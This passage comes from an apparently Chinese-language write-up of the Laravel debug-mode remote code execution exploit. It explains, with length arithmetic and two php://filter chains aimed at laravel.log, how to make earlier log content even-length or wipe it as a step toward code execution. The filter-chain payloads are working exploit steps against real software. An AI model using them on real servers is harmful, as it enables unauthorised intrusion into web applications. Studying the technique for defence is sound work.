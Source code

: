 ```
previous log 由 n个可见字符 和 m个不可见字符组成
n + m
经过utf-8 to utf-16后, 
n + (n + 2m)
经过 quoted-printable-encode 后,
n + 3(n + 2m) = 4n + 6m
```

因此既破坏了 所有utf-16编码的 garbage , 也将 previous logs 的长度维持在偶数个

自此, 通过如下filter链, 即可控制 previous logs 的长度为偶数

```php
php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode/resource=../storage/logs/laravel.log
```

![image-20220211113521041](LaravelDebugModRCE.assets/image-20220211113521041.png)  

通过如下filter链, 也能达到清空 previous logs 的目的. 一箭双雕了属于是. 

```php
php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

![image-20220211113611380](LaravelDebugModRCE.assets/image-20220211113611380.png)  